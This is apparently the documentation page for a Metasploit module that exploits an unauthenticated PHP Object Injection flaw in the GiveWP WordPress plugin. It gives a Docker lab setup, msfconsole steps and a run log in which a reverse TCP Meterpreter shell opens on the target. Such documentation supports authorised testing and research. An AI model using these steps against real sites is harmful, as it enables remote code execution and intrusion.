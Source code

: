 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object that can lead to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Use the following `docker-compose.yml` file to set up a vulnerable WordPress environment.

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

2. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.14.1](https://downloads.wordpress.org/plugin/give.3.14.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

3. **Create a Donation Form**:
- Create a new post and use the GiveWP plugin to add a donation form. Note the post URL for use in the exploit.

## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:8888

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.3.2
[+] Detected GiveWP Plugin version: 3.14.1
[+] The target appears to be vulnerable.
[+] Successfully connected to the GiveWP API.
[*] Analyzing Form ID: 13
[+] Form ID: 13 has required fields.
[*] Analyzing Form ID: 10
[-] Form ID: 10 does not contain all required fields.
[*] Analyzing Form ID: 8
[-] Form ID: 8 does not contain all required fields.
[*] Sending exploit payload...
[*] Sending stage (3045380 bytes) to 172.24.0.3
[*] Meterpreter session 60 opened (192.168.1.36:4444 -> 172.24.0.3:59102) at 2024-08-27 19:24:44 +0200

meterpreter > sysinfo 
Computer     : 172.24.0.3
OS           : Debian 11.8 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Notes:
- The exploitation is successful only against legacy donation forms within GiveWP.
Be sure to configure and test legacy forms to verify the vulnerability effectively.
